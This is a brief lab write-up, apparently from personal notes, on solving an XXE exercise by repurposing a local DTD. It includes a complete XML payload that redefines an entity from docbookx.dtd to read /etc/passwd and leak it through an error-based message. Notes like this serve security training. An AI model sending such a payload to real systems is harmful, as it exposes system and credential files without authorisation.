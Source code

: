 ![[fileDontExist.png]]

![[fileExists.png]]

Following the lab's hint obtain the open source file:

![[entityFile.png]]

From there all of this entities are available for usage.

Craft an appropriate payload:

```XML
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
```

Trigger it within the request and the lab is solved!

![[XXE/Labs/XXE Repurposing Local DTD/images/exploited.png]]

